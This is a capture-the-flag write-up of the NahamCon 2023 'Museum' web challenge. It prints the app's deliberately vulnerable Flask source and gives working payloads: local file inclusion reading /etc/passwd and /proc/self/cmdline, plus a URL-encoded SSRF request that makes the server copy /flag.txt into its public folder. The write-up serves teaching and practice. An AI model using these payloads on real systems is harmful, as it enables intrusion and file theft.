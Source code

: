 ```yaml
---
title: NahamCon CTF 2023 - Museum
date: 2023-06-19 09:00:00 +0800
categories: [NahamCon CTF 2023, Web]
tags: [web, lfi, ssrf, urlencode, flask, proc]
media_subpath: /assets/img/ctfs/nahamcon2023/museum/
image:
  path: museum.jpg
---
```


## Info

| Name                                                                   | Difficulty | Author                                          |
|------------------------------------------------------------------------|------------|:------------------------------------------------|
| [Museum](https://github.com/v3he/ctfs/tree/master/nahamcon2023/museum) | Medium     | [JohnHammond](https://twitter.com/_johnhammond) |

> Check out our museum of artifacts! Apparently, soon they will allow public submissions, just like in Animal Crossing! Retrive the flag out of `/flag.txt` in the root of the file system. 
{: .prompt-info }

## Recon

The first thing we see when we enter the website is what appears to be a gallery with different images and a link to upload ourselves to the museum.

![Museum Home Page](main-page.png)

If we click on View to see one of the images in particular, we come across the following page:

![Museum Image Page](image-view.png)

What is most striking is the URL `?artifact=angwy.jpg`. After some testing, I realized that the web is vulnerable to `Local File Inclusion`, and with a url like `?artifact=//etc/passwd` we can extract information from the system.

![LFI Passwd File](lfi-passwd.png)

## Local File Inclusion

Obviously, the first thing I tried to do was to extract the `flag.txt`, but it seems to be blocked when it detects that string in the url.

![LFI Flag File](lfi-flag.png)

After a while of walking around and not finding anything that worked for me, I tried to extract information on how the application was launched using `?artifact=//proc/self/cmdline`.

```bash
python3/home/museum/app.py
```
{: .nolineno }

We can see that the application is made with python, let's get the application code using `?artifact=//home/museum/app.py`.

### Source Code

```python
from flask import Flask, request, render_template, send_from_directory, send_file, redirect, url_for
import os
import urllib
import urllib.request

app = Flask(__name__)

@app.route('/')
def index():
    artifacts = os.listdir(os.path.join(os.getcwd(), 'public'))
    return render_template('index.html', artifacts=artifacts)

@app.route("/public/<file_name>")
def public_sendfile(file_name):
    file_path = os.path.join(os.getcwd(), "public", file_name)
    if not os.path.isfile(file_path):
        return "Error retrieving file", 404
    return send_file(file_path)

@app.route('/browse', methods=['GET'])
def browse():
    file_name = request.args.get('artifact')

    if not file_name:
        return "Please specify the artifact to view.", 400

    artifact_error = "<h1>Artifact not found.</h1>"

    if ".." in file_name:
        return artifact_error, 404

    if file_name[0] == '/' and file_name[1].isalpha():
        return artifact_error, 404
    
    file_path = os.path.join(os.getcwd(), "public", file_name)
    if not os.path.isfile(file_path):
        return artifact_error, 404

    if 'flag.txt' in file_path:
        return "Sorry, sensitive artifacts are not made visible to the public!", 404

    with open(file_path, 'rb') as f:
        data = f.read()

    image_types = ['jpg', 'png', 'gif', 'jpeg']
    if any(file_name.lower().endswith("." + image_type) for image_type in image_types):
        is_image = True
    else:
        is_image = False

    return render_template('view.html', data=data, filename=file_name, is_image=is_image)

@app.route('/submit')
def submit():
    return render_template('submit.html')

@app.route('/private_submission_fetch', methods=['GET'])
def private_submission_fetch():
    url = request.args.get('url')

    if not url:
        return "URL is required.", 400

    response = submission_fetch(url)
    return response

def submission_fetch(url, filename=None):
    return urllib.request.urlretrieve(url, filename=filename)

@app.route('/private_submission')
def private_submission():
    if request.remote_addr != '127.0.0.1':
        return redirect(url_for('submit'))

    url = request.args.get('url')
    file_name = request.args.get('filename')

    if not url or not file_name:
        return "Please specify a URL and a file name.", 400

    try:
        submission_fetch(url, os.path.join(os.getcwd(), 'public', file_name))
    except Exception as e:
        return str(e), 500

    return "Submission received.", 200

if __name__ == '__main__':
    app.run(debug=False, host="0.0.0.0", port=5000)
```

The first interesting thing is this line, in which we can see why we could not directly extract the flag.

```python
if 'flag.txt' in file_path:
    return "Sorry, sensitive artifacts are not made visible to the public!", 404
```

We see two more endpoints, `/private_submission_fetch` and `/private_submission`. The second one cannot be called directly, because it checks that the request comes from `127.0.0.1`.

On the other hand, we can call the first one, and it expects us to send it a parameter called `url` and this calls `submission_fetch()` which is the function that makes the request.

## Server Side Request Forgery

Given this circumstance, it is possible to ask `/private_submission_fetch` to make a request to itself from localhost to the `/private_submission` endpoint in order to fetch the `flag.txt`.

### Crafting the Payload

But first we have to create the url that private_submission will need, as we can see it expects two parameters:

- `url` has to be the file we want to open, in our case flag.txt, for this the url will be `url=file:///flag.txt`
- `filename` will be the name that we will see in the main page and that we will visit later, we have to put a name different from `flag.txt`, for example `filename=leak.txt`

With all this in mind, the final url should look something like this: `http://127.0.0.1:5000/?url=file:///flag.txt&filename=leak.txt`

## Exploitation

![SSRF Error](ssrf-error.png)

Theoretically, the payload is correct but it fails continuously and does not create the new `leak.txt` entry. After a while of testing I realized that I had to do `URL encoding` of the whole parameter part of the url, so that it looks like this:

```bash
http://challenge.nahamcon.com:30622/private_submission_fetch?url=http%3A%2F%2F127.0.0.1%3A5000%2Fprivate_submission%3Furl%3Dfile%3A%2F%2F%2Fflag.txt%26filename%3Dleak.txt
```
{: .nolineno }

Even though the response is still an `Internal Server Error`, if we go to the main page, we can see that now a new `leak.txt` entry has been created.

![Leak txt entry](leak-txt.png)

And if we go inside this one, now we can see the flag.

![Flag](flag.png)

## Final Thoughts

An entertaining challenge, a bit tedious the SSRF part due to the error messages and the URL encode issue but it was a matter of time and testing.